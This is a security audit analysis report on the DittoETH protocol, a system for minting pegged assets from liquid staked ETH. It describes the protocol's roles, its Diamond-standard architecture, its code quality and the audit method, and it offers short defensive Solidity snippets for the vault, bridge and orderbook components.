The minting of `DittoAssets` occurs through a unique orderbook mechanism. Users can place bids to purchase `DittoAssets` using their `dETH` collateral, while shorters can place asks to mint and sell `DittoAssets`. When a bid and an ask are matched, the `DittoAsset` is minted and transferred to the bidder, while the shorter receives the `dETH` collateral from the bidder. This collateral is added to the shorter's existing collateral, allowing them to earn additional staking rewards.

To ensure the stability and solvency of the system, `DittoETH` requires shorters to maintain a minimum collateralization ratio, typically set at 170% (`initialCR`). If a shorter's collateralization ratio falls below the liquidation threshold, their position can be liquidated by liquidators, who are incentivized to maintain the health of the protocol.

The protocol also incorporates various mechanisms to handle edge cases and maintain the peg of `DittoAssets`. These include a dynamic tithe system that adjusts fees based on market conditions, a redemption mechanism that allows DittoAsset holders to redeem their assets for the underlying collateral, and a Treasury Asset Protection Pool (`TAPP`) that acts as a stability fund to absorb potential losses.

DittoETH shares similarities with other decentralized finance (DeFi) protocols like MakerDAO and Synthetix in terms of collateralized debt positions and pegged asset issuance. However, it distinguishes itself through its use of LSTs as collateral, the orderbook-based minting mechanism, and the incentive structure for shorters to earn additional rewards.

The protocol's smart contracts are organized into a modular structure using the Diamond standard, allowing for flexibility and upgradability. The core contracts include:

1. `VaultFacet`: Handles the management of vaults, deposits, and withdrawals of collateral.
2. `BridgeRouterFacet`: Facilitates the interaction with external LST bridges for depositing and withdrawing collateral.
3. `BidOrdersFacet` and `ShortOrdersFacet`: Manage the creation and matching of bid and short orders on the orderbook.
4. `PrimaryLiquidationFacet`: Handles the liquidation of undercollateralized short positions.
5. `RedemptionFacet`: Enables the redemption of `DittoAssets` for the underlying collateral.

The protocol also relies on external price oracles, such as Chainlink and Uniswap V3 TWAPs, to determine asset prices and ensure the accuracy of the system.

Here's a diagram that provides an overview of the DittoETH protocol:

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

## Protocol Roles/Actors and Their Privileges

In the DittoETH protocol, there are several key roles and actors, each with their own privileges and responsibilities. These roles include:

### 1. Users

   - Users are the primary participants in the DittoETH protocol.
   - They can deposit LSTs or ETH into vaults to mint dETH, which is escrowed within the protocol.
   - Users can place bids on the orderbook to purchase `DittoAssets` using their dETH collateral.
   - Users can also place asks on the orderbook to mint and sell `DittoAssets`.
   - Users have the privilege to withdraw their deposited collateral from vaults, subject to certain conditions and fees.

### 2. Shorters

   - Shorters are users who mint and sell `DittoAssets` on the orderbook.
   - They provide liquidity to the system by minting `DittoAssets` and selling them to bidders.
   - Shorters must maintain a minimum collateralization ratio (e.g., 170%) to ensure the stability of the minted `DittoAssets`.
   - They earn staking rewards on their collateral, including the additional collateral received from matched bidders.
   - Shorters have the privilege to manage their short positions, adjust collateral, and close their positions by repurchasing and burning the minted `DittoAssets`.

### 3. Bidders

   - Bidders are users who place bids on the orderbook to purchase `DittoAssets` using their dETH collateral.
   - When a bid is matched with a shorter's ask, the bidder receives the minted `DittoAsset`.
   - Bidders have the privilege to cancel their bids if they are not yet matched.

### 4. Liquidators

   - Liquidators play a crucial role in maintaining the health and solvency of the DittoETH protocol.
   - They monitor the collateralization ratios of shorters' positions.
   - If a shorter's position falls below the liquidation threshold, liquidators have the privilege to liquidate the position.
   - Liquidators receive incentives from the Treasury Asset Protection Pool (TAPP) for performing liquidations.

### 5. DittoAsset Holders

   - DittoAsset holders are users who own the minted `DittoAssets`.
   - They have the privilege to redeem their `DittoAssets` for the underlying collateral through the RedemptionFacet.
   - When a `DittoAsset` is redeemed, it is burned, and the corresponding collateral is released to the holder.

### 6. DAO (Decentralized Autonomous Organization)

   - The DittoETH protocol is governed by a DAO.
   - The DAO has the privilege to set and adjust various protocol parameters, such as the tithe system, liquidation thresholds, and TAPP.
   - DAO members participate in the governance process and make decisions that impact the protocol's operation and evolution.

### 7. Oracles

   - Oracles are external entities that provide price feeds for the assets supported by the `DittoETH` protocol.
   - They play a critical role in ensuring accurate price information for the orderbook and collateralization checks.
   - Oracles have the privilege to update asset prices, which are relied upon by the protocol for various calculations and decisions.

Here's a diagram in Mermaid code that illustrates the roles and actors in the `DittoETH` protocol:

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

This diagram shows the relationships and interactions between the different roles and actors in the `DittoETH` protocol. The arrows indicate the actions and privileges associated with each role, such as depositing collateral, placing orders, maintaining collateralization ratios, liquidating positions, redeeming `DittoAssets`, governing the protocol, and providing price feeds.

The diagram aims to provide a clear visual representation of the roles and their respective privileges within the `DittoETH` ecosystem. It highlights the interdependencies and the flow of assets and information among the various actors.

## Technical Architecture of DittoETH

DittoETH is built on a robust and modular architecture that adheres to the Diamond standard, enabling the protocol to achieve a high degree of flexibility, upgradability, and separation of concerns. The architecture is meticulously designed to support the core functionalities of minting, trading, and redeeming pegged assets, known as `DittoAssets`, which are collateralized by liquid staked ETH (LSTs) such as rETH and stETH.

### State Management

At the heart of the DittoETH architecture lies the `AppStorage` contract, which serves as the central repository for all the critical state variables and data structures of the protocol. The `AppStorage` contract employs a well-organized system of mappings and structs to efficiently store and manage information pertaining to vaults, assets, users, orders, and short records.

The `vault` mapping associates a unique identifier (`uint256`) with a `Vault` struct, which encapsulates the essential properties and state of each vault within the protocol. This includes data such as the total dETH balance, collateral composition, and yield rates.

The `asset` mapping establishes a relationship between an asset address and its corresponding `Asset` struct, which holds asset-specific information like the associated vault, oracle address, and various parameters governing the asset's behavior within the protocol.

User-related data is maintained through the `vaultUser` and `assetUser` mappings. The `vaultUser` mapping links a vault identifier and a user address to a `VaultUser` struct, storing user-specific data within the context of a particular vault, such as the user's dETH balance and bridge credit. Similarly, the `assetUser` mapping connects an asset address and a user address to an `AssetUser` struct, capturing user-specific information pertaining to a specific asset, like the user's escrowed DittoAsset balance.

The `bids`, `asks`, and `shorts` mappings are used to store and manage the orderbook data. Each mapping associates an asset address and an order identifier (`uint16`) with an `Order` struct, representing the details of a specific bid, ask, or short order, respectively. This structure allows for efficient retrieval and manipulation of order data.

Lastly, the `shortRecords` mapping provides a multi-level mapping that links an asset address, a user address, and a short record identifier (`uint8`) to a `ShortRecord` struct. This mapping enables the protocol to keep track of the individual short positions of users, including collateral, debt, and yield information.

The centralized state management approach employed by the `AppStorage` contract offers several advantages. It ensures data consistency across the various components of the protocol, reduces the complexity of inter-contract interactions, and provides a single source of truth for the protocol's state. Moreover, it allows for efficient querying and updating of state variables, optimizing gas costs and improving overall performance.

**Sequence Flow Diagram:**

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

 The sequence flow diagram shows the interactions between the various components and actors involved in the protocol's operations.

### Vault Management

The `VaultFacet` contract is responsible for managing the vaults within the DittoETH protocol. A vault serves as a secure container for the deposited LSTs and ETH collateral, and the `VaultFacet` provides a range of functions to interact with these vaults.

Users can deposit their LSTs or ETH into a vault through the `depositAsset` and `depositEth` functions, respectively. When a user deposits collateral, the `VaultFacet` contract mints an equivalent amount of dETH, an internal representation of the deposited collateral. The minted dETH is then escrowed within the vault, effectively locking the collateral and allowing the user to participate in the protocol's functionalities.

The `VaultFacet` contract also enables users to withdraw their collateral from the vault using the `withdrawAsset` function. Upon withdrawal, the escrowed dETH is burned, and the corresponding collateral is released back to the user. This process ensures that the collateral remains securely stored within the vault until the user initiates a withdrawal.

In addition to deposit and withdrawal operations, the `VaultFacet` contract plays a crucial role in updating the yield rates associated with the vaults. The `updateYield` function is responsible for recalculating and updating the yield rates based on the current state of the vault and the underlying collateral. This functionality ensures that users receive accurate and up-to-date yield information on their deposited collateral.

The vault management component of the DittoETH architecture serves as the foundation for the secure storage and accounting of collateral assets. By providing a robust and reliable mechanism for depositing, withdrawing, and tracking collateral, the `VaultFacet` contract contributes to the overall stability and integrity of the protocol.

### Bridge Interaction

The `BridgeRouterFacet` contract is a critical component of the DittoETH architecture, facilitating seamless interaction with external LST bridges. This contract acts as an intermediary between the protocol and the supported LST bridges, such as the rETH and stETH bridges, enabling users to deposit and withdraw LSTs through these bridges.

When a user wants to deposit LSTs into the protocol, they can interact with the `BridgeRouterFacet` contract through the `deposit` function. This function takes the address of the specific LST bridge and the amount of LSTs to be deposited. Internally, the contract communicates with the corresponding LST bridge contract, initiating the deposit process. The deposited LSTs are then converted into dETH, the internal representation of collateral within the DittoETH protocol.

Similarly, when a user wishes to withdraw their LSTs from the protocol, they can invoke the `withdraw` function of the `BridgeRouterFacet` contract. This function takes the address of the LST bridge and the amount of dETH to be withdrawn. The contract interacts with the specified LST bridge to facilitate the withdrawal process, converting the dETH back into the corresponding LSTs and transferring them to the user's wallet.

The `BridgeRouterFacet` contract also incorporates a credit system to handle scenarios where users deposit and withdraw different types of LSTs. When a user deposits LSTs through a specific bridge, they receive a bridge credit associated with that particular LST. This credit is tracked and managed within the `BridgeRouterFacet` contract. When a user withdraws LSTs, the contract first checks if they have sufficient bridge credit for the requested LST. If the credit is available, the withdrawal is processed using the credited LSTs. This mechanism ensures that users can only withdraw the LSTs they have previously deposited, preventing potential arbitrage opportunities.

The bridge interaction component of the DittoETH architecture serves a vital purpose by expanding the range of collateral options available to users. By integrating with multiple LST bridges, the protocol offers users the flexibility to deposit and withdraw different types of LSTs, enhancing the overall liquidity and accessibility of the platform. The `BridgeRouterFacet` contract abstracts away the complexities of interacting with individual LST bridges, providing a unified and user-friendly interface for collateral management.

Moreover, the bridge interaction functionality enables the protocol to adapt and evolve as new LST bridges emerge in the ecosystem. The modular design of the `BridgeRouterFacet` contract allows for easy integration of additional LST bridges, ensuring that the protocol remains compatible and interoperable with a wide range of collateral assets.

### Orderbook

The orderbook is a fundamental component of the DittoETH architecture, facilitating the matching of buyers and sellers of `DittoAssets`. The orderbook functionality is implemented through two key contracts: `BidOrdersFacet` and `ShortOrdersFacet`.

The `BidOrdersFacet` contract handles the placement and management of bid orders on the orderbook. Users can place bids by specifying the desired `DittoAsset`, the price they are willing to pay, and the amount of dETH collateral they wish to use. The contract validates the input parameters, checks the user's available dETH balance, and creates a new bid order on the orderbook. Bid orders are stored in the `bids` mapping within the `AppStorage` contract, allowing for efficient retrieval and matching.

On the other hand, the `ShortOrdersFacet` contract is responsible for managing short orders on the orderbook. Shorters can place asks by specifying the `DittoAsset` they want to mint and sell, the price they are willing to sell at, and the amount of `DittoAssets` they wish to create. The contract verifies the shorter's collateral adequacy, ensures compliance with the protocol's collateralization requirements, and creates a new short order on the orderbook. Short orders are stored in the `shorts` mapping within the `AppStorage` contract.

The orderbook component of the DittoETH architecture employs a sophisticated matching algorithm to efficiently match bid and short orders. When a new bid or short order is placed, the contracts traverse the orderbook to find the best matching counterparty. The matching algorithm takes into account the price, quantity, and order type to determine the optimal match. If a match is found, the contracts execute the trade, transferring the `DittoAssets` from the shorter to the bidder and the dETH collateral from the bidder to the shorter.

To optimize gas costs and improve the performance of the orderbook, the DittoETH architecture incorporates a hint system. When placing an order, users can provide hints in the form of order IDs that indicate the expected position of their order in the orderbook. These hints help the contracts quickly locate the appropriate position for the new order, reducing the number of iterations required to find a match. If the provided hints are inaccurate or outdated, the contracts fall back to a more exhaustive search to ensure the correct placement and matching of orders.

The orderbook component also includes mechanisms to handle partial fills and order cancellations. If an order is only partially filled, the remaining quantity is updated, and the order remains active on the orderbook for future matches. Users have the ability to cancel their outstanding orders, which removes them from the orderbook and releases the associated collateral.

The `BidOrdersFacet` and `ShortOrdersFacet` contracts work together to create a decentralized and efficient market for minting and trading `DittoAssets`. The orderbook model promotes price discovery, liquidity, and fair market dynamics. By enabling users to place bids and asks at their desired prices, the architecture fosters a competitive and transparent trading environment.

Moreover, the orderbook component is designed to be flexible and extensible. The modular structure of the contracts allows for the integration of additional order types, such as limit orders or market orders, as well as the incorporation of advanced trading features like order expiration or fill-or-kill orders. This adaptability ensures that the DittoETH protocol can evolve and meet the changing needs of its users over time.

### Liquidation

The `PrimaryLiquidationFacet` contract plays a crucial role in maintaining the stability and solvency of the DittoETH protocol by facilitating the liquidation of undercollateralized short positions. Liquidation is a critical risk management mechanism that ensures the protocol remains adequately collateralized and protects against potential defaults.

When a shorter opens a short position by minting and selling `DittoAssets`, they are required to provide sufficient collateral to meet the protocol's collateralization requirements. The collateralization ratio is defined as the ratio of the collateral value to the minted `DittoAsset` value. If the collateralization ratio of a short position falls below the liquidation threshold, it becomes eligible for liquidation.

The `PrimaryLiquidationFacet` contract allows liquidators to identify and liquidate undercollateralized short positions. Liquidators continuously monitor the collateralization ratios of short positions and can initiate the liquidation process by calling the `liquidate` function. This function takes the address of the `DittoAsset`, the address of the shorter, and the ID of the short position to be liquidated.

Upon receiving a liquidation request, the contract verifies the eligibility of the short position for liquidation. It calculates the current collateralization ratio based on the latest price information from the oracle and compares it against the liquidation threshold. If the short position is indeed undercollateralized, the liquidation process proceeds.

During liquidation, the contract forcefully closes the short position by executing a series of steps. First, it determines the amount of `DittoAssets` that need to be repurchased to bring the position back to a safe collateralization level. The contract then places a forced bid on the orderbook to buy back the necessary `DittoAssets` using the shorter's collateral. If the forced bid is successful and the required `DittoAssets` are acquired, the contract burns the repurchased `DittoAssets`, effectively reducing the supply and stabilizing the collateralization ratio.

The liquidation process also involves the distribution of liquidation penalties and incentives. The shorter whose position is liquidated incurs a liquidation penalty, which is a percentage of their collateral that is forfeited. This penalty serves as a deterrent against reckless borrowing and encourages responsible collateral management. On the other hand, liquidators who successfully liquidate undercollateralized positions are rewarded with a portion of the liquidation penalty as an incentive for their efforts in maintaining the protocol's stability.

The `PrimaryLiquidationFacet` contract interacts closely with other components of the DittoETH architecture, such as the orderbook and the price oracle, to execute liquidations accurately and efficiently. It relies on real-time price data from the oracle to calculate collateralization ratios and determine the eligibility of positions for liquidation. The contract also leverages the orderbook to place forced bids and acquire the necessary `DittoAssets` during the liquidation process.

The liquidation mechanism implemented in the `PrimaryLiquidationFacet` contract is essential for mitigating the risk of undercollateralized positions and ensuring the overall health and stability of the DittoETH protocol. By promptly liquidating positions that fall below the required collateralization threshold, the contract prevents the accumulation of bad debt and maintains the integrity of the collateral backing the minted `DittoAssets`.

Moreover, the liquidation functionality acts as a self-regulating mechanism within the protocol. It incentivizes shorters to actively manage their collateral and maintain sufficient collateralization levels to avoid liquidation. At the same time, it encourages liquidators to actively monitor the protocol and participate in the liquidation process, contributing to the decentralized governance and risk management of the platform.

### Redemption

The `RedemptionFacet` contract is an essential component of the DittoETH architecture, enabling `DittoAsset` holders to redeem their assets for the underlying collateral. Redemption is a fundamental feature that ensures the convertibility and stability of `DittoAssets`, allowing users to exit their positions and retrieve the collateral value locked within the protocol.

When a user holds `DittoAssets` and wishes to redeem them, they can interact with the `RedemptionFacet` contract through the `redeemAssets` function. This function takes the address of the `DittoAsset` and the amount to be redeemed as input parameters. Upon receiving a redemption request, the contract verifies the validity of the request and checks the user's `DittoAsset` balance to ensure they have sufficient funds to complete the redemption.

Once the redemption request is validated, the `RedemptionFacet` contract initiates the redemption process. It calculates the corresponding amount of collateral that needs to be released based on the current redemption rate. The redemption rate is determined by the protocol's governance mechanism and takes into account factors such as the overall collateralization ratio, market conditions, and redemption demand.

After determining the collateral amount to be released, the contract burns the redeemed `DittoAssets`, effectively removing them from circulation. This burning process helps maintain the stability and integrity of the `DittoAsset` supply, as it ensures that the total supply of `DittoAssets` remains in sync with the underlying collateral.

Next, the `RedemptionFacet` contract interacts with the vault management component to release the collateral to the user. It communicates with the `VaultFacet` contract to withdraw the appropriate amount of collateral from the vault and transfer it to the user's wallet address. The contract ensures that the collateral is securely and accurately released, updating the relevant state variables and balances within the `AppStorage` contract.

The redemption process implemented in the `RedemptionFacet` contract is designed to be efficient, transparent, and user-friendly. It provides a seamless way for `DittoAsset` holders to convert their assets back into the underlying collateral, enabling them to exit their positions and access the value they have stored within the protocol.

The redemption functionality plays a crucial role in maintaining the stability and credibility of the `DittoAsset` ecosystem. By offering a reliable and accessible redemption mechanism, the DittoETH protocol instills confidence in its users and promotes the widespread adoption of `DittoAssets` as a stable and trustworthy medium of exchange.

Moreover, the `RedemptionFacet` contract incorporates various security measures and checks to prevent unauthorized or fraudulent redemption attempts. It validates the authenticity

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

## Codebase Quality

### Code Maintainability and Reliability

The DittoETH codebase demonstrates a high level of maintainability and reliability. The contracts are well-structured, modular, and adhere to the Diamond standard, which promotes separation of concerns and allows for easy upgradability. The use of libraries, such as `LibOrders`, `LibAsset`, and `LibShortRecord`, encapsulates complex logic and improves code reusability. The contracts are also designed to handle edge cases and potential errors gracefully, with appropriate error handling and revert messages using the `Errors` library. The use of SafeMath operations ensures that arithmetic operations are protected against overflow and underflow vulnerabilities. Overall, the codebase exhibits a strong emphasis on maintainability and reliability, making it easier for developers to understand, modify, and extend the functionality of the protocol.

### Code Comments

The DittoETH codebase features extensive and informative code comments throughout the contracts. Each contract, function, and important code block is accompanied by clear and concise comments that explain the purpose, functionality, and any relevant considerations. The comments provide valuable insights into the intended behavior of the code, making it easier for developers to understand and navigate the codebase. The use of NatSpec-style comments, such as `@notice`, `@dev`, and `@param`, further enhances the documentation and helps in generating comprehensive documentation for the protocol. The comments also highlight any potential risks, assumptions, or dependencies associated with specific functions or variables. The thoroughness and quality of the code comments demonstrate a commitment to maintainability and facilitating collaboration among developers.

### Code Structure and Formatting

The DittoETH codebase follows a consistent and well-organized code structure and formatting. The contracts are logically grouped and separated into different files based on their functionality, such as `VaultFacet`, `BridgeRouterFacet`, `BidOrdersFacet`, and `ShortOrdersFacet`. The use of the Diamond standard ensures a clear separation of concerns and promotes modularity. The code is properly indented, and the use of white space enhances readability. The naming conventions for variables, functions, and events are descriptive and follow a consistent pattern, making it easier to understand their purpose and usage. The codebase also makes effective use of Solidity's inheritance and interface mechanisms to promote code reuse and abstraction. Overall, the code structure and formatting of the DittoETH codebase contribute to its maintainability, readability, and ease of understanding.

### Strengths

One of the key strengths of the DittoETH codebase is its modular and extensible architecture. The use of the Diamond standard allows for the separation of concerns and enables the protocol to evolve and adapt over time. New functionality can be added through the creation of additional facets without modifying the existing contracts, promoting upgradability and reducing the risk of introducing bugs or vulnerabilities. The codebase also demonstrates a strong focus on security, with the use of well-established libraries, such as `SafeMath`, and the implementation of access control mechanisms to prevent unauthorized access to critical functions. The extensive test suite provided with the codebase instills confidence in the correctness and robustness of the protocol. The tests cover various scenarios, edge cases, and potential vulnerabilities, ensuring that the contracts behave as expected and can handle different conditions. The comprehensive documentation, both in the form of code comments and external documentation, is another strength of the DittoETH codebase. The documentation provides a clear and detailed explanation of the protocol's architecture, functionality, and usage, making it easier for developers and users to understand and interact with the system.

### Documentation

The DittoETH protocol benefits from a comprehensive and well-structured documentation. The provided whitepaper offers a high-level overview of the protocol's design, architecture, and key components. It explains the core concepts, such as vaults, collateral management, orderbook matching, liquidation, and redemption, in a clear and accessible manner. The whitepaper also discusses the economic model, incentive structures, and potential use cases of the protocol. In addition to the whitepaper, the codebase itself is thoroughly documented using in-code comments and NatSpec annotations. These comments provide detailed explanations of each contract, function, and important code block, making it easier for developers to understand the purpose and functionality of the code. The documentation also includes usage examples, parameter descriptions, and any relevant considerations or assumptions. The combination of the whitepaper and in-code documentation provides a solid foundation for understanding the DittoETH protocol and facilitates its adoption and integration by developers and users alike.

Here's a diagram illustrating the key components of the DittoETH codebase:

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

This diagram highlights the key components of the DittoETH codebase, including the Diamond standard architecture, the various facets responsible for different functionalities, the libraries that encapsulate complex logic, the centralized storage contract (`AppStorage`), the extensive test suite, and the comprehensive documentation in the form of the whitepaper and in-code comments.

## Approach Taken to Audit DittoETH

### Pre-Audit Approach

Before diving into the actual audit of the DittoETH protocol, it was essential to establish a solid foundation and understanding of the project. The first step involved reviewing the provided documentation, including the Litepaper and any available technical specifications. This initial review helped gain a high-level understanding of the protocol's architecture, key components, and intended functionality.

In addition to the project-specific documentation, the audit approach also leveraged prior knowledge and experience in auditing similar DeFi protocols. Familiarity with common vulnerabilities, best practices, and security patterns in the DeFi space provided a valuable starting point for the audit process. This background knowledge allowed for a more targeted and efficient analysis of the DittoETH codebase.

### Codebase Approach

The audit of the DittoETH codebase followed a systematic and thorough approach to ensure comprehensive coverage of all critical components. The codebase was reviewed file by file, focusing on the core functionalities and technical characteristics of each contract. The following table provides an overview of the key contracts audited, along with their importance and management:

| File Name | Core Functionality | Technical Characteristics | Importance and Management |
|--------------------------|-----------------------------|-----------------------------|--------------------|
| VaultFacet.sol | Manages vaults, deposits, and withdrawals | Vault management, collateral accounting, yield updates | Critical component for secure collateral management and accurate accounting |
| BridgeRouterFacet.sol | Facilitates interaction with external LST bridges | Bridge integration, credit system, deposit/withdrawal | Essential for seamless integration with LST bridges and proper handling of bridge interactions |
| BidOrdersFacet.sol | Handles the placement and matching of bid orders | Orderbook management, bid matching, order settlement | Crucial for accurate order matching, settlement, and maintaining market integrity |
| ShortOrdersFacet.sol | Manages the creation and matching of short orders | Short order placement, collateralization checks | Vital for ensuring proper collateralization and risk management of short positions |
| PrimaryLiquidationFacet.sol | Facilitates the liquidation of undercollateralized positions | Liquidation process, incentives, collateral management | Critical for maintaining protocol solvency and stability through efficient liquidations |
| RedemptionFacet.sol | Enables the redemption of `DittoAssets` for collateral | Redemption process, collateral release, asset burning | Essential for ensuring the convertibility and stability of `DittoAssets` |

### Publicly Known Issues

Before conducting the audit, it was important to review any publicly known issues or vulnerabilities associated with the DittoETH protocol on the README. This involved examining the project's GitHub repository, issue tracker, and any relevant public forums or communication channels. By considering publicly known issues, the audit could prioritize the review of potentially affected areas and ensure that known vulnerabilities were adequately addressed. I also explored Solodit for similar protocols to understand what types of bugs are usually occurs on these types of protocol.

### Testing

Testing played a crucial role in the audit process of DittoETH. The protocol's codebase included an extensive test suite. The test suite covered various scenarios, edge cases, and potential vulnerabilities, providing valuable insights into the behavior and correctness of the smart contracts. I also wrote some tests to analyse and dive deep into the codebase. During the audit, the existing test cases were reviewed and analyzed to assess their comprehensiveness and effectiveness in detecting potential issues. Additional test cases were developed to further explore edge cases, boundary conditions, and specific attack vectors. The tests were executed using the Foundry framework, which provided a robust and efficient testing environment. The test coverage was examined to ensure that all critical functionalities and code paths were adequately tested. The tests proved to be highly valuable in understanding the functionality of each function and the underlying logic of the protocol. They served as a reliable baseline for verifying the expected behavior of the contracts and identifying any deviations or vulnerabilities.

### Slither and Bot races

In addition to manual code review and testing, the audit process also involved the use of static analysis tools like Slither. Slither is a popular open-source static analysis framework for Solidity smart contracts. It helps identify potential vulnerabilities, code quality issues, and best practice violations. The DittoETH codebase was analyzed using various Bots to supplement the manual review process. Slither's analysis and Bots results provided valuable insights into potential security risks.

**Analysis and Testing Insights:**

- **Robustness of Contracts** - The analysis and testing of the DittoETH codebase revealed a high level of robustness in the design and implementation of the smart contracts. The contracts demonstrated a strong adherence to best practices and security principles. The use of well-established libraries, such as SafeMath, and the proper handling of edge cases and error conditions contributed to the overall robustness of the protocol.

- **Gas Efficiency** - During the audit, attention was also given to the gas efficiency of the DittoETH contracts. The codebase was analyzed for opportunities to optimize gas consumption without compromising functionality or security. The use of efficient data structures, such as mappings and arrays, and the avoidance of unnecessary computations and storage operations were observed in several instances. However, there were a few areas identified where further gas optimizations could be explored, such as reducing the number of storage reads and writes or using more efficient algorithms for certain computations.

- **Security Posture** - The security posture of the DittoETH protocol was carefully evaluated during the audit. The codebase demonstrated a strong commitment to security, with the implementation of various security measures and best practices. Access control mechanisms were properly implemented to restrict access to critical functions and state variables. The use of modifiers and role-based access control helped ensure that only authorized entities could perform specific actions. The contracts also included appropriate error handling and input validation to prevent unexpected behavior and mitigate potential attack vectors.

- **Continuous Improvement** - Throughout the audit process, it was evident that the DittoETH team was committed to continuous improvement and receptive to feedback and recommendations. The team actively engaged in discussions and addressed any findings or concerns raised during the audit. They demonstrated a willingness to iterate on the codebase and incorporate suggested improvements to enhance the protocol's security and functionality. This collaborative approach and openness to feedback contributed to the overall quality and robustness of the DittoETH protocol.

The audit of the DittoETH protocol followed a comprehensive approach that involved a combination of manual code review, testing, static analysis, and consideration of publicly known issues. The codebase was systematically analyzed, focusing on the core functionalities and technical characteristics of each contract. The extensive test suite provided valuable insights into the behavior and correctness of the smart contracts, while tools like Slither complemented the manual review process.

## Overview, Concerns, and Recommendations

### Vault Management (`VaultFacet.sol`)

The `VaultFacet` contract is responsible for managing the vaults within the DittoETH protocol. It provides functions for depositing and withdrawing collateral, minting dETH (an internal representation of the deposited collateral), and updating yield rates. The vault management component ensures the secure storage and accounting of collateral assets.

**Concerns:**

1. The `depositAsset` and `depositEth` functions allow users to deposit collateral into the vault. However, there is no explicit check to ensure that the deposited amount is greater than zero. While the `addDeth` function in `LibBridgeRouter` does check for a minimum deposit amount, it would be safer to include this check directly in the deposit functions to prevent any potential edge cases.

2. The `withdrawAsset` function enables users to withdraw their collateral from the vault. The function calls the `assessDeth` function in `LibBridgeRouter` to determine the amount of dETH that can be withdrawn based on the user's bridge credit. However, there is no explicit validation to ensure that the returned value from `assessDeth` does not exceed the user's total dETH balance. While this scenario is unlikely given the current implementation, adding an explicit check would provide an extra layer of safety.

**Recommendations:**

1. Consider adding a check in the `depositAsset` and `depositEth` functions to ensure that the deposited amount is greater than zero. This can help prevent any unintended behavior or potential issues arising from zero-value deposits.

```solidity
function depositAsset(address bridge, uint88 amount) external nonReentrant {
    if (amount == 0) revert Errors.ZeroAmountDeposit();
    // Rest of the function logic
}
```

2. To enhance the safety of the `withdrawAsset` function, consider adding an explicit validation to ensure that the amount returned from `assessDeth` does not exceed the user's total dETH balance. This can be done by comparing the returned value with the user's `ethEscrowed` balance in the `VaultUser` struct.

```solidity
function withdrawAsset(address bridge, uint88 dethAmount) external nonReentrant {
    // Rest of the function logic
    uint88 withdrawableAmount = LibBridgeRouter.assessDeth(vault, bridgePointer, dethAmount, rethBridge, stethBridge);
    if (withdrawableAmount > s.vaultUser[vault][msg.sender].ethEscrowed) revert Errors.InsufficientDethBalance();
    // Rest of the function logic
}
```

### Bridge Interaction (`BridgeRouterFacet.sol`)

The `BridgeRouterFacet` contract facilitates the interaction with external LST bridges, such as the rETH and stETH bridges. It allows users to deposit and withdraw LSTs through the bridges, converting them to dETH and vice versa. The bridge interaction component enables seamless integration with different LST protocols and expands the collateral options for users.

**Concerns:**

1. The `deposit` and `depositEth` functions interact with external bridge contracts to deposit LSTs or ETH. While the contract does handle the case when the bridge deposit fails (e.g., by checking the returned `dethAmount`), there is no explicit validation of the bridge addresses. If an invalid or malicious bridge address is provided, it could lead to unexpected behavior or loss of funds.

2. The `withdraw` function calculates the withdrawal fee percentage based on the market premium/discount between rETH and stETH using a 30-minute TWAP. However, there is no check to ensure that the TWAP values are not stale or manipulated. In case of external oracle failures or price manipulations, the withdrawal fee calculation could be affected, potentially leading to incorrect fees being charged.

**Recommendations:**

1. Implement a whitelist mechanism for valid bridge addresses. Before interacting with a bridge contract, verify that the provided bridge address is included in the whitelist. This can help prevent interactions with invalid or malicious bridge contracts.

```solidity
mapping(address => bool) private validBridges;

function deposit(address bridge, uint88 amount) external nonReentrant {
    if (!validBridges[bridge]) revert Errors.InvalidBridge();
    // Rest of the function logic
}
```

2. Consider adding additional checks to ensure the integrity of the TWAP values used in the withdrawal fee calculation. This can include verifying that the TWAP values are not stale (e.g., by checking the timestamp) and implementing a price deviation threshold to detect and handle sudden price fluctuations or manipulations.

```solidity
function withdrawalFeePct(uint256 bridgePointer, address rethBridge, address stethBridge) internal view returns (uint256 fee) {
    // Rest of the function logic
    uint256 rethTwapTimestamp = OracleLibrary.getTwapTimestamp(VAULT.RETH_WETH);
    uint256 stethTwapTimestamp = OracleLibrary.getTwapTimestamp(VAULT.WSTETH_WETH);
    
    if (block.timestamp - rethTwapTimestamp > 30 minutes || block.timestamp - stethTwapTimestamp > 30 minutes) {
        revert Errors.StaleTwapData();
    }
    
    uint256 priceDeviationThreshold = 0.1 ether; // 10% deviation threshold
    if (factorReth > factorSteth * (1 + priceDeviationThreshold) || factorSteth > factorReth * (1 + priceDeviationThreshold)) {
        revert Errors.PriceDeviationExceeded();
    }
    
    // Rest of the function logic
}
```

### Orderbook (`BidOrdersFacet.sol` and `ShortOrdersFacet.sol`)

The orderbook component of the DittoETH protocol is implemented through the `BidOrdersFacet` and `ShortOrdersFacet` contracts. These contracts handle the placement and management of bid and short orders on the orderbook. The orderbook facilitates the matching of buyers and sellers of DittoAssets, enabling efficient price discovery and liquidity.

**Concerns:**

1. The `createBid` and `createLimitShort` functions allow users to place bid and short orders on the orderbook. While the functions do perform various validations and checks, there is a potential concern regarding the handling of dust amounts. If a bid or short order results in a very small (dust) amount after matching, it could lead to inefficiencies and increased gas costs for subsequent operations on those orders.

2. The orderbook matching algorithm implemented in the `bidMatchAlgo` and `sellMatchAlgo` functions is complex and involves multiple loops and conditions. While the code is well-structured and documented, the complexity of the matching logic increases the potential for unintended behavior or edge cases. Thorough testing and validation of the matching algorithm is crucial to ensure its correctness and robustness.

**Recommendations:**

1. Implement a dust threshold mechanism to handle small order amounts. If the remaining amount of a bid or short order falls below a certain threshold after matching, consider automatically canceling the order and refunding the remaining amount to the user. This can help reduce the number of tiny orders on the orderbook and improve overall efficiency.

```solidity
uint256 constant DUST_THRESHOLD = 1e15; // Adjust the threshold as needed

function bidMatchAlgo(/* ... */) private returns (uint88 ethFilled, uint88 ercAmountLeft) {
    // Rest of the function logic
    if (incomingBid.ercAmount < DUST_THRESHOLD) {
        // Cancel the remaining bid order and refund the user
        cancelBid(asset, incomingBid.id);
        return (matchTotal.fillEth, 0);
    }
    // Rest of the function logic
}
```

